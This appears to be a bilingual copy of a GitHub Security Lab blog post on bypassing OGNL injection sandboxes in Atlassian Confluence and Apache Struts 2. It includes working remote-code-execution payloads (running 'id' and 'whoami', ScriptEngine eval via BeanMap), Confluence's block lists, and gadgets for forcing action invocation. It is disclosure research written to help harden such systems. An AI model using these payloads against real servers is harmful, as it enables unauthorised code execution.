




# 将 OGNL 沙箱用于娱乐和慈善活动 - The GitHub Blog --- Bypassing OGNL sandboxes for fun and charities - The GitHub Blog

## Overview 概述[](#overview)

Object Graph Notation Language (OGNL) is a popular, Java-based, expression language used in popular frameworks and applications, such as Apache Struts and Atlassian Confluence. In the past, OGNL injections led to some serious remote code execution (RCE) vulnerabilities, such as the [Equifax breach](https://www.synopsys.com/blogs/software-security/equifax-apache-struts-vulnerability-cve-2017-5638/), and over the years, protection mechanisms and mitigations against OGNL injections have been developed and improved to limit the impact of these vulnerabilities.  
对象图表示语言（Object Graph Notation Language，OGNL）是一种流行的、基于 Java 的表达式语言，用于流行的框架和应用程序，如 Apache Struts 和 Atlassian Confluence。在过去，OGNL 注入导致了一些严重的远程代码执行（RCE）漏洞，例如 Equifax 漏洞，多年来，针对 OGNL 注入的保护机制和缓解措施已经开发和改进，以限制这些漏洞的影响。

In this blog post, I will describe how I was able to bypass certain OGNL injection protection mechanisms, including the one used by Struts and the one used by Atlassian Confluence. The purpose of this blog post is to share different approaches used when analyzing this kind of protection so they can be used to harden similar systems.  
在这篇博文中，我将描述我是如何绕过某些 OGNL 注入保护机制的，包括 Struts 使用的机制和 Atlassian Confluence 使用的机制。这篇博客文章的目的是分享在分析这种保护时使用的不同方法，以便它们可以用于强化类似的系统。

No new OGNL injections are being reported as part of this research, and unless future OGNL injections are found on the affected frameworks/applications, or known double evaluations affect an existing Struts application, this research does not constitute any immediate risk for Apache Struts or Atlassian Confluence.  
本研究没有报告新的 OGNL 注入，除非在受影响的框架 / 应用程序中发现未来的 OGNL 注入，或者已知的双重评估影响现有的 Struts 应用程序，否则本研究不会对 Apache Struts 或 Atlassian Confluence 构成任何直接风险。

## Hello OGNL, my old friend  
你好，老朋友[](#hello-ognl-my-old-friend)

I have a past history of bugs found in Struts framework, including [CVE-2016-3087](https://cwiki.apache.org/confluence/display/WW/S2-033), [CVE-2016-4436](https://cwiki.apache.org/confluence/display/WW/S2-035), [CVE-2017-5638](https://cwiki.apache.org/confluence/display/WW/S2-046), [CVE-2018-1327](https://cwiki.apache.org/confluence/display/WW/S2-056), [CVE-2020-17530](https://cwiki.apache.org/confluence/display/WW/S2-061) and even some [double OGNL injections](https://securitylab.github.com/advisories/GHSL-2020-205-double-eval-dynattrs-struts2/) through both Velocity and FreeMarker tags that remain unfixed to this date. Therefore, I have become familiar with the OGNL sandbox and different escapes over the years and I am still interested in any OGNL-related vulnerabilities that may appear. That was the case with Atlassian Confluence, [CVE-2021-26084](https://jira.atlassian.com/browse/CONFSERVER-67940) and [CVE-2022-26134](https://jira.atlassian.com/browse/CONFSERVER-79016), where the former is an instance of the unresolved double evaluation via Velocity tags mentioned in my [2020 advisory](https://securitylab.github.com/advisories/GHSL-2020-205-double-eval-dynattrs-struts2/).  
我有一个在 Struts 框架中发现的 bug 的历史记录，包括 CVE-2016-3087，CVE-2016-4436，CVE-2017-5638，CVE-2018-1327，CVE-2020-17530，甚至是一些通过 Velocity 和 FreeMarker 标记的双重 OGNL 注入，这些标记至今仍未修复。因此，多年来我已经熟悉了 OGNL 沙箱和不同的转义，我仍然对任何可能出现的 OGNL 相关漏洞感兴趣。Atlassian Confluence，CVE-2021-26084 和 CVE-2022-26134 就是这种情况，其中前者是我在 2020 年咨询中提到的通过 Velocity 标签进行未解决的双重评估的实例。

My friend, Man Yue Mo, wrote a [great article](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776/) describing how the OGNL mitigations have been evolving over the years and there are few other posts that also describe in detail how these mitigations have been improving.  
我的朋友 Man Yue Mo 写了一篇很棒的文章，描述了 OGNL 缓解措施多年来是如何发展的，很少有其他文章也详细描述了这些缓解措施是如何改进的。

In 2020, disabling the sandbox became harder, so I decided to change the approach completely. I introduced new ways to get RCE by circumventing the sandbox, and using the application server’s Instance Manager to instantiate arbitrary objects that I could use to achieve RCE. This research was presented at our Black Hat 2020 talk, [Scribbling outside of template security](https://i.blackhat.com/USA-20/Wednesday/us-20-Munoz-Room-For-Escape-Scribbling-Outside-The-Lines-Of-Template-Security-wp.pdf). We reported this issue to the Apache Struts team, and they [fixed](https://github.com/apache/struts/commit/8d3393f09a06ff4a2b6827b6544524d1d6af3c7c) the issue by using a block list. However, in 2021, Chris McCown published a [new bypass technique](https://mc0wn.blogspot.com/2021/04/exploiting-struts-rce-on-2526.html) which leverages the OGNL’s AST maps and the Apache Commons Collections BeanMap class.  
在 2020 年，禁用沙箱变得更加困难，所以我决定完全改变方法。我介绍了通过绕过沙箱来获得 RCE 的新方法，并使用应用程序服务器的实例管理器来实例化可用于实现 RCE 的任意对象。这项研究在我们的 Black Hat 2020 演讲中提出，Scribbling outside of template security。我们向 Apache Struts 团队报告了这个问题，他们通过使用阻止列表修复了这个问题。然而，在 2021 年，Chris McCown 发布了一种新的旁路技术，该技术利用了 OGNL 的 AST 映射和 Apache Commons Collections BeanMap 类。

That was it–at that point I had enough of OGNL and stopped looking into it until two events happened in the same week:  
就是这样，在这一点上，我有足够的 OGNL 和停止调查，直到两个事件发生在同一周：

-   My friend, [Mert](https://twitter.com/mertistaken), found what he thought was an SSTI in a bug bounty program. It turned out to be an OGNL injection, so he asked me to help him with the exploitation of the issue.  
    我的朋友，莫特，在一个漏洞赏金计划中发现了他认为是 SSTI 的东西。原来这是一个 OGNL 注射，所以他让我帮助他利用这个问题。
-   I read several tweets claiming that [CVE-2022-26134](https://jira.atlassian.com/browse/CONFSERVER-79016) was not vulnerable to RCE on the latest Confluence version (7.18.0 at that time).  
    我读了几条推文，声称 CVE-2022-26134 在最新的 Confluence 版本（当时是 7.18.0）上不容易受到 RCE 的攻击。

Okay, OGNL, my old friend. Here we go again.  
好吧，OGNL，老朋友。又来了

## Looking at Confluence `isSafeExpression` protection  
查看 Confluence `isSafeExpression` 保护[](#looking-at-confluence-issafeexpression-protection)

When the CVE-2022-26134 was released there was an initial understanding that the [OGNL injection could not lead to direct RCE in the latest version 7.18.0](https://twitter.com/httpvoid0x2f/status/1532924239216627712) since the `isSafeExpression` method was not possible to bypass for that version  
当 CVE-2022-26134 发布时，最初的理解是 OGNL 注入不会导致最新版本 7.18.0 中的直接 RCE，因为该版本无法绕过 `isSafeExpression` 方法


Harsh Jaiswal ([@rootxharsh](https://twitter.com/rootxharsh)) and Rahul Maini ([@iamnoooob](https://twitter.com/iamnoooob)) took a different approach and looked for a gadget chain in the allowed classes list that could allow them to create an admin account.  
Harsh Jaiswal（@rootxharsh）和 Rahul Maini（@ iamnooooob）采取了不同的方法，在允许的类列表中寻找一个小工具链，可以允许他们创建一个管理员帐户。


Soon after, [@MCKSysAr](https://twitter.com/MCKSysAr) found a [nice and simple bypass](https://twitter.com/MCKSysAr/status/1533053536430350337):  
不久之后，@MCKSysAr 找到了一个很好的简单旁路：

1.  Use `Class` property instead of `class` one.  
    使用 `Class` 属性而不是 `class` 属性。
2.  Use string concatenation to bypass string checks.  
    使用字符串串联绕过字符串检查。

  
  

MCKSysAr’s bypass was soon addressed by blocking the access to the `Class` and `ClassLoader` properties. I had some other ideas, so I decided to take a look at the `isSafeExpression` implementation.  
MCKSysAr 的旁路很快就通过阻止对 `Class` 和 `ClassLoader` 属性的访问来解决。我有一些其他的想法，所以我决定看看 `isSafeExpression` 实现。

The first interesting thing I learned was that this method was actually parsing the OGNL expression into its AST form in order to analyze what it does and decide whether it should be allowed to be executed or not. Bye-bye to regexp-based bypasses.  
我学到的第一件有趣的事情是，这个方法实际上是将 OGNL 表达式解析成它的 AST 形式，以便分析它的作用并决定是否应该允许它被执行。再见了基于正则表达式的旁路。

Then the main logic to inspect the parsed tree was the following:  
然后检查解析树的主要逻辑如下：

-   Starting at the root node of the AST tree, recursively call `containsUnsafeExpression()` on each node of the tree.  
    从 AST 树的根节点开始，在树的每个节点上递归调用 `containsUnsafeExpression()` 。
-   If the node is an instance of `ASTStaticField`, `ASTCtor` or `ASTAssign` then the expression is deemed to be unsafe. This will prevent payloads using the following vectors:  
    如果节点是 `ASTStaticField` 、 `ASTCtor` 或 `ASTAssign` 的实例，则表达式被认为是不安全的。这将阻止使用以下矢量的有效载荷：
    -   Static field accesses 静态字段访问
    -   Constructors calls 构造函数调用
    -   Variable assignments 变量赋值
-   If the node is an `ASTStaticMethod` check that the class the method belongs to is in an allow list containing:  
    如果节点是 `ASTStaticMethod` ，检查方法所属的类是否在允许列表中，该列表包含：
    -   `net.sf.hibernate.proxy.HibernateProxy`
    -   `java.lang.reflect.Proxy`
    -   `net.java.ao.EntityProxyAccessor`
    -   `net.java.ao.RawEntity`
    -   `net.sf.cglib.proxy.Factory`
    -   `java.io.ObjectInputValidation`
    -   `net.java.ao.Entity`
    -   `com.atlassian.confluence.util.GeneralUtil`
    -   `java.io.Serializable`
-   If node is an `ASTProperty` checks block list containing (after the initial fix):  
    如果节点是 `ASTProperty` ，则检查包含以下内容的阻止列表（初始修复后）：
    -   `class`
    -   `Class`
    -   `classLoader`
    -   `ClassLoader`
-   If the property looks like a class name, check if the class’s namespace is defined in the `unsafePackageNames` block list (too long to list here).  
    如果属性看起来像一个类名，检查类的命名空间是否在 `unsafePackageNames` 块列表中定义（太长，无法在此列出）。
-   If node is an `ASTMethod`, check if we are calling `getClass` or `getClassLoader`.  
    如果节点是 `ASTMethod` ，检查我们调用的是 `getClass` 还是 `getClassLoader` 。
-   If node is an `ASTVarRef`, check if the variable name is in `UNSAFE_VARIABLE_NAMES` block list:  
    如果节点是 `ASTVarRef` ，检查变量名是否在 `UNSAFE_VARIABLE_NAMES` 块列表中：
    -   `#application`
    -   `#parameters`
    -   `#request`
    -   `#session`
    -   `#_memberAccess`
    -   `#context`
    -   `#attr`
-   If node in an `ASTConst` (eg: a string literal), call `isSafeExpressionInternal` which will check the string against a block list (for example, harmful class names) and, in addition, it will parse the string literal as an OGNL expression and apply the `containsUnsafeExpression()` recursive checks on it.  
    如果节点在 `ASTConst` 中（例如：一个字符串字面量），调用 `isSafeExpressionInternal` ，它将根据块列表（例如，有害的类名）检查字符串，此外，它将把字符串字面量解析为 OGNL 表达式，并对其应用 `containsUnsafeExpression()` 递归检查。
-   If a node has children, repeat the process for the children.  
    如果节点有子节点，则对子节点重复该过程。

This is a pretty comprehensive control since it parses the AST recursively and makes sure that any AST nodes considered harmful are either rejected or inspected further.  
这是一个非常全面的控制，因为它递归地解析 AST，并确保任何被认为有害的 AST 节点被拒绝或进一步检查。

MCKSysAr bypass was based on two things: A) `Class` and `ClassLoader` properties were not accounted for when inspecting `ASTProperty` nodes; and B) `”java.lang.” + “Runtime”` was parsed as an `ASTAdd` node with two `ASTConst` children. None of them matched any of the known harmful strings and when parsed as an OGNL expression, none of them were valid expressions so they were not parsed further. A) Was fixed quickly by disallowing access to `Class` and `ClassLoader` properties, but B) was not fixed since it was considered as a security in-depth control (it’s impossible to analyze all variants in which a malicious string could be written).  
MCKSysAr 旁路基于两件事：A）在检查 `ASTProperty` 节点时没有考虑 `Class` 和 `ClassLoader` 属性；B） `”java.lang.” + “Runtime”` 被解析为具有两个 `ASTConst` 子节点的 `ASTAdd` 节点。它们中没有一个匹配任何已知的有害字符串，并且当解析为 OGNL 表达式时，它们都不是有效的表达式，因此它们不会被进一步解析。A）通过禁止访问 `Class` 和 `ClassLoader` 属性快速修复，但 B）没有修复，因为它被认为是一种安全深度控制（不可能分析所有可能写入恶意字符串的变体）。

With that in mind I took a look at the [list of the OGNL AST nodes](https://github.com/orphan-oss/ognl/tree/master/src/main/java/ognl) to see if there was anything interesting that was not accounted for in the `isSafeExpression()` method.  
考虑到这一点，我查看了 OGNL AST 节点的列表，看看是否有任何有趣的东西没有在 `isSafeExpression()` 方法中考虑到。

### Enter `ASTEval` 输入 `ASTEval`[](#enter-asteval)

The first one that got my attention was `ASTEval`. It looked very interesting and it was not accounted for by the `containsUnsafeExpression()` method.  
第一个引起我注意的是 `ASTEval` 。它看起来非常有趣，并且没有被 `containsUnsafeExpression()` 方法所解释。

`ASTEval` are nodes in the form of `(expr)(root)` and they will parse the `expr` string into a new AST and evaluate it with `root` as its root node. This will allow us to provide an OGNL expression in the form of a string `(ASTConst)` and evaluate it! We know that `ASTConst` nodes are parsed as OGNL expressions and verified to not be harmful. However, we already saw that if we split the string literal in multiple parts, only the individual parts will be checked and not the result of the concatenation. For example, for the payload below `#application` will never get checked, only `#` and `application` which are deemed to be safe:  
`ASTEval` 是 `(expr)(root)` 形式的节点，它们将把 `expr` 字符串解析成一个新的 AST，并以 `root` 作为其根节点对其进行评估。这将允许我们以字符串 `(ASTConst)` 的形式提供一个 OGNL 表达式并对其求值！我们知道 `ASTConst` 节点被解析为 OGNL 表达式，并被验证为无害。然而，我们已经看到，如果我们将字符串字面量拆分为多个部分，那么只会检查各个部分，而不会检查串联的结果。例如，对于 `#application` 以下的有效载荷，将永远不会检查，只有 `#` 和 `application` 被认为是安全的：

  
  

As you can see in the resulting tree, there are no hints of any `ASTVarRef` node and therefore access to `#application` is granted.  
正如您在生成的树中所看到的，没有任何 `ASTVarRef` 节点的提示，因此允许访问 `#application` 。

### Weaponizing `ASTEval` 正在筛选 `ASTEval`[](#weaponizing-asteval)

There are multiple ways to craft a payload levering this vector. For example, we could get arbitrary RCE with echoed response:  
有多种方法来制造一个有效载荷勒韦林这个载体。例如，我们可以得到带有回显响应的任意 RCE：

```swift
('(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@get'+'Runtime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))')('')
```


### Enter `ASTMap`, `ASTChain` and `ASTSequence`  
输入 `ASTMap` 、 `ASTChain` 和 `ASTSequence`[](#enter-astmap-astchain-and-astsequence)

I was already familiar with `ASTMap`s from reading [Mc0wn’s great article](https://mc0wn.blogspot.com/2021/04/exploiting-struts-rce-on-2526.html). In a nutshell, OGNL allows developers to instantiate any `java.util.Map` implementation by using the `@<class_name>@{}` syntax.  
我已经熟悉了阅读 Mc0wn 的伟大文章。简而言之，OGNL 允许开发人员使用 `@<class_name>@{}` 语法实例化任何 `java.util.Map` 实现。

Using this technique, we were able to use a `BeanMap` (a map wrapping a Java bean and exposing its getters and setters as map entries) to bypass the `getClass` limitation by rewriting the payload as:  
使用这种技术，我们能够使用 `BeanMap` （一个映射，包装一个 Java bean，并将其 getter 和 setter 作为映射项公开）通过将有效负载重写为以下内容来绕过 `getClass` 限制：

```java
BeanMap map = @org.apache.commons.beanutils.BeanMap@{};

map.setBean(“”)

map.get(“class”).forName(”javax.script.ScriptEngineManager”).newInstance().getEngineByName(“js”).eval(payload)
```

This payload avoids calling the `BeanMap` constructor explicitly and, therefore, gets rid of the `ASTCtor` limitation. In addition, it allows us to call `Object.getClass()` implicitly by accessing the `class` item. However, we still have another problem: we need to be able to assign the map to a variable (`map`) so we can call the `setBean()` method on it and later call the `get()` method on the same map. Since `ASTAssign` was blocked, assignments were not an option. Fortunately, looking through the list of AST nodes, two more nodes got my attention: `ASTChain` and `ASTSequence`.  
此有效负载避免了显式调用 `BeanMap` 构造函数，因此摆脱了 `ASTCtor` 限制。此外，它允许我们通过访问 `class` 项来隐式地调用 `Object.getClass()` 。然而，我们仍然有另一个问题：我们需要能够将 map 赋值给一个变量（ `map` ），这样我们就可以在它上面调用 `setBean()` 方法，然后在同一个 map 上调用 `get()` 方法。由于 `ASTAssign` 被阻止，分配不是一个选择。幸运的是，通过查看 AST 节点列表，还有两个节点引起了我的注意： `ASTChain` 和 `ASTSequence` 。

-   `ASTChain` allows us to pass the result of one evaluation as the root node of the next evaluation. For example: `(one).(two)` will evaluate `one` and use its result as the root for the evaluation of `two`.  
    `ASTChain` 允许我们将一次求值的结果作为下一次求值的根节点传递。例如： `(one).(two)` 将评估 `one` 并将其结果用作 `two` 评估的根。
-   `ASTSequence` allows us to run several evaluations on the same root object in sequence. For example: `one, two` will evaluate `one` and then `two` using the same root node.  
    `ASTSequence` 允许我们在同一个根对象上依次运行多个计算。例如： `one, two` 将使用相同的根节点评估 `one` ，然后评估 `two` 。

The idea was to bypass `ASTAssign` constraint by combining `ASTChain` and `ASTSequence` together  
这个想法是通过将 `ASTChain` 和 `ASTSequence` 组合在一起来绕过 `ASTAssign` 约束

We can set the map returned by the `ASTMap` expression as the root for a sequence of expressions so all of them will have the map as its root object:  
我们可以将 `ASTMap` 表达式返回的 map 设置为一个表达式序列的根，这样所有的表达式都将 map 作为其根对象：

```ruby
(#@BeanMap@{}).(expression1, expression2)
```

In our case, `expression1` is the call to `setBean()` and `expression2` is the call to `get()`.  
在我们的例子中， `expression1` 是对 `setBean()` 的调用， `expression2` 是对 `get()` 的调用。

Taking that into account and splitting literal strings into multiple parts to bypass the block list we got the following payload:  
考虑到这一点，并将文字字符串分成多个部分以绕过阻止列表，我们得到了以下有效负载：

```kotlin
(#@org.apache.commons.beanutils.BeanMap@{}).(setBean(''),get('cla'+'ss').forName('javax'+'.script.ScriptEngineManager').newInstance().getEngineByName('js').eval('7*7'))
```

The final AST tree bypassing all `isSafeExpression` checks is:  
绕过所有 `isSafeExpression` 检查的最终 AST 树是：

  
  

There was a final problem to solve. The OGNL injection sink was `translateVariable()` which resolves OGNL expressions wrapped in `${expressions}` delimiters. Therefore, our payload was not allowed to contain any curly brackets. Fortunately, for us, [OGNL will replace unicode escapes](https://github.com/apache/commons-ognl/blob/master/src/main/jjtree/ognl.jjt#L36-L37) for us so we were able to use the final payload:  
还有最后一个问题要解决。OGNL 注入接收器是 `translateVariable()` ，它解析封装在 `${expressions}` 分隔符中的 OGNL 表达式。因此，我们的有效负载不允许包含任何花括号。幸运的是，对我们来说，OGNL 将取代 unicode escape，所以我们能够使用最终的有效载荷：

```kotlin
(#@org.apache.commons.beanutils.BeanMap@\\u007b\\u007d).(setBean(''),get('cla'+'ss').forName('javax'+'.script.ScriptEngineManager').newInstance().getEngineByName('js').eval('7*7'))
```

I submitted these bypasses to Atlassian through its bug bounty program and, even though I was not reporting any new OGNL injections but a bypass of its sandbox, they were kind enough to award me with a $3,600 bounty!  
我通过 Atlassian 的 bug 赏金计划提交了这些绕过，尽管我没有报告任何新的 OGNL 注入，而是绕过了它的沙箱，他们还是好心地给了我 3,600 美元的赏金！

## Looking into Struts2 关于 Struts2[](#looking-into-struts2)

As mentioned before, a friend found what he thought was a Server-Side Template Injection (SSTI) (`%{7*7}` => 49) but it turned out to be an OGNL injection. Since this happened as part of a bug bounty program, I didn’t have access to the source code. I can’t be sure if the developers were passing untrusted data to an OGNL sink (for example, `[ActionSupport.getText()](https://struts.apache.org/maven/struts2-core/apidocs/com/opensymphony/xwork2/ActionSupport.html#getText-java.lang.String-)`), or if it was some of the [unfixed double evaluations issues](https://securitylab.github.com/advisories/GHSL-2020-205-double-eval-dynattrs-struts2/) (still working at the time of writing). Anyhow, the application seemed to be using the latest Struts version and known payloads were not working. I decided to take a deeper look.  
如前所述，一个朋友发现了他认为是服务器端模板注入（SSTI）（ `%{7*7}` => 49），但结果却是 OGNL 注入。由于这是作为 bug 赏金计划的一部分发生的，我没有访问源代码的权限。我不能确定开发人员是否将不受信任的数据传递到 OGNL 接收器（例如， `[ActionSupport.getText()](https://struts.apache.org/maven/struts2-core/apidocs/com/opensymphony/xwork2/ActionSupport.html#getText-java.lang.String-)` ），或者是否是一些未修复的双重评估问题（在撰写本文时仍然有效）。无论如何，该应用程序似乎使用了最新的 Struts 版本，已知的有效负载不起作用。我决定更深入地研究一下。

### New gadgets on the block  
新的小玩意在块[](#new-gadgets-on-the-block)

When I listed what objects were available I was surprised to find that many of the usual objects in the Struts OGNL context, such as the value stack, were not there, and some others I haven’t seen before were available. One of such objects was `#request[‘.freemarker.TemplateModel’]`. This object turned out to be an instance of `org.apache.struts2.views.freemarker.ScopesHashModel` containing a variety of new objects. One of them (stored under the `ognl` key) gave me access to an `org.apache.struts2.views.jsp.ui.OgnlTool` instance. Looking at the code for this class I quickly spotted that it was calling `Ognl.getValue()`. This class is not part of Struts, but the OGNL library and, therefore, the Struts sandbox (member access policy) was not enabled! In order to exploit it I used the following payload:  
当我列出可用的对象时，我惊讶地发现，Struts OGNL 上下文中的许多常用对象（如值堆栈）都不在那里，而一些我以前从未见过的对象却可用。其中一个对象是 `#request[‘.freemarker.TemplateModel’]` 。这个对象原来是 `org.apache.struts2.views.freemarker.ScopesHashModel` 的一个实例，包含了各种各样的新对象。其中一个（存储在 `ognl` 键下）允许我访问 `org.apache.struts2.views.jsp.ui.OgnlTool` 实例。查看这个类的代码，我很快发现它正在调用 `Ognl.getValue()` 。这个类不是 Struts 的一部分，而是 OGNL 库的一部分，因此没有启用 Struts 沙箱（成员访问策略）！为了利用它，我使用了以下有效载荷：

```scss
#request[‘.freemarker.TemplateModel’].get(‘ognl’).getWrappedObject().findValue(‘(new freemarker.template.utility.Execute()).exec({“whoami”})’, {})
```

That was enough to get the issue accepted as a remote code execution in the bounty program. However, despite having achieved RCE, there were a few unsolved questions:  
这足以让这个问题被接受为赏金计划中的远程代码执行。然而，尽管已经实现了 RCE，但仍有一些未解决的问题：

-   Why was this `.freemarker.TemplateModel` object available?  
    为什么这个 `.freemarker.TemplateModel` 对象可用？
-   Are there any other ways to get RCE on the latest Struts versions?  
    有没有其他方法可以在最新的 Struts 版本上获得 RCE？

### Post-invocations Context  
调用后上下文[](#post-invocations-context)

Attackers are limited to the objects they are able to access. Normally, OGNL injections take place before the action invocation completes and the action’s `Result` is rendered.  
攻击者仅限于他们能够访问的对象。通常，OGNL 注入发生在动作调用完成和动作的 `Result` 呈现之前。



https://struts.apache.org/core-developers/attachments/Struts2-Architecture.png

When grepping the Struts’s source code for `.freemarker.TemplateModel`, I found out that there are plenty of new objects added to the request scope when preparing the action’s `Result` in order to share them with the view layer (JSP, FreeMarker or Velocity) and `.freemarker.TemplateModel` was [one of them](https://github.com/apache/struts/blob/266d2d4ed526edbb8e8035df94e94a1007d7c360/core/src/main/java/org/apache/struts2/views/freemarker/FreemarkerManager.java#L122). However, those objects are only added after the `ActionInvocation` has been invoked. This implies that if I find `.freemarker.TemplateModel` on the request scope, my injection was evaluated after the action invocation finished building the action’s `Result` object and, therefore, my injection probably did not take place as part of the Struts code but as a [double evaluation in the FreeMarker template](https://securitylab.github.com/advisories/GHSL-2020-205-double-eval-dynattrs-struts2/).  
当 grepping Struts 的 `.freemarker.TemplateModel` 源代码时，我发现在准备动作的 `Result` 时，有大量的新对象添加到请求范围中，以便与视图层（JSP，FreeMarker 或 Velocity）共享它们， `.freemarker.TemplateModel` 就是其中之一。但是，这些对象只有在调用了 `ActionInvocation` 之后才被添加。这意味着，如果我在请求作用域中找到 `.freemarker.TemplateModel` ，我的注入是在动作调用完成构建动作的 `Result` 对象之后进行的，因此，我的注入可能不是作为 Struts 代码的一部分发生的，而是作为 FreeMarker 模板中的双重评估。

These new objects will offer new ways to get remote code execution, but only if you are lucky to get your injection evaluated after the action’s `Result` has been built. Or not? 🤔  
这些新的对象将提供新的方法来获得远程代码执行，但前提是你很幸运，在构建了动作的 `Result` 之后，你的注入得到了评估。还是不去？🤔

It turned out that the ongoing `ActionInvocation` object can be accessed through the OGNL context and, therefore, we can use it to force the building of the `Result` object in advance. Calling the `Result`s `doExecute()` method will trigger the population of the so-called template model. For example, for Freemarker, `ActionInvocation.createResult()` will create a `FreemarkerResult` instance. Calling its `doExecute()` method will, in turn, call its `[createModel()](https://github.com/apache/struts/blob/266d2d4ed526edbb8e8035df94e94a1007d7c360/core/src/main/java/org/apache/struts2/views/freemarker/FreemarkerResult.java#L273)` method that will populate the template model.  
结果是，正在进行的 `ActionInvocation` 对象可以通过 OGNL 上下文访问，因此，我们可以使用它来提前强制构建 `Result` 对象。调用 `Result` s `doExecute()` 方法将触发所谓的模板模型的填充。例如，对于 Freemarker， `ActionInvocation.createResult()` 将创建一个 `FreemarkerResult` 实例。调用它的 `doExecute()` 方法将反过来调用它的 `[createModel()](https://github.com/apache/struts/blob/266d2d4ed526edbb8e8035df94e94a1007d7c360/core/src/main/java/org/apache/struts2/views/freemarker/FreemarkerResult.java#L273)` 方法，该方法将填充模板模型。

```shell
(#ai=#attr['com.opensymphony.xwork2.ActionContext.actionInvocation'])+

(#ai.setResultCode("success"))+

(#r=#ai.createResult())+

(#r.doExecute("pages/test.ftl",#ai))
```

Executing the above payload will populate the request context with new objects. However, that requires us to know the result code and the template’s path. Fortunately, we can also invoke the `ActionInvocation.invoke()` method that will take care of everything for us!  
执行上述有效负载将用新对象填充请求上下文。然而，这需要我们知道结果代码和模板的路径。幸运的是，我们也可以调用 `ActionInvocation.invoke()` 方法，它将为我们处理一切！

```less
#attr['com.opensymphony.xwork2.ActionContext.actionInvocation'].invoke()
```

The line above will result in the template model being populated and stored in the request, and context scopes regardless of where your injection takes place.  
上面的代码行将导致模板模型被填充并存储在请求中，并且上下文范围与注入发生的位置无关。

### Wild objects appeared 野生动物出现了[](#wild-objects-appeared)

After the invocation, the request scope and value stack will be populated with additional objects. These objects vary depending on the view layer used. What follows is a list of the most interesting ones (skipping most of them which do not lead to RCE):  
在调用之后，请求范围和值堆栈将被其他对象填充。这些对象因所使用的视图层而异。以下是最有趣的列表（跳过大多数不会导致 RCE 的列表）：

For Freemarker: 对于 Freemarker：

-   `.freemarker.Request` (`freemarker.ext.servlet.HttpRequestHashModel`)
-   `.freemarker.TemplateModel` (`org.apache.struts2.views.freemarker.ScopesHashModel`)
    -   `__FreeMarkerServlet.Application__` (`freemarker.ext.servlet.ServletContextHashModel`)
    -   `JspTaglibs` (`freemarker.ext.jsp.TaglibFactory`)
    -   `.freemarker.RequestParameters` (`freemarker.ext.servlet.HttpRequestParametersHashModel`)
    -   `.freemarker.Request` (`freemarker.ext.servlet.HttpRequestHashModel`)
    -   `.freemarker.Application` (`freemarker.ext.servlet.ServletContextHashModel`)
    -   `.freemarker.JspTaglibs` (`freemarker.ext.jsp.TaglibFactory`)
    -   `ognl` (`org.apache.struts2.views.jsp.ui.OgnlTool`)
    -   `stack` (`com.opensymphony.xwork2.ognl.OgnlValueStack`)
    -   `struts` (`org.apache.struts2.util.StrutsUtil`)

For JSPs: 对于 JSP：

-   `com.opensymphony.xwork2.dispatcher.PageContext` (`PageContextImpl`)

For Velocity: 对于 Velocity：

-   `.KEY_velocity.struts2.context` -> (`StrutsVelocityContext`)  
    `.KEY_velocity.struts2.context` ->（ `StrutsVelocityContext` ）
